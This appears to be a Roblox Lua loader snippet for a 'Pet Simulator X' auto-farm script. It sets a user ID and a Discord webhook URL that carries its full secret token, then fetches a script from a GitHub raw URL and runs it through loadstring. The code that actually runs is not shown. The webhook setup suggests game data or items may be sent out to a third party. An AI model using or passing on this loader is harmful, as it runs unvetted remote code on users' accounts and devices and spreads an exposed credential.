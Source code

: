 _G.UserID =3471017691
_G.WebHook = "https://discord.com/api/webhooks/1051756779140296704/VFcEpVCpPUJmXha5WyNOmyvPpCdNAUfJPMKqZ7Wf8sxpuRX1cR-u0dOerGlYYqWdWpb_"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
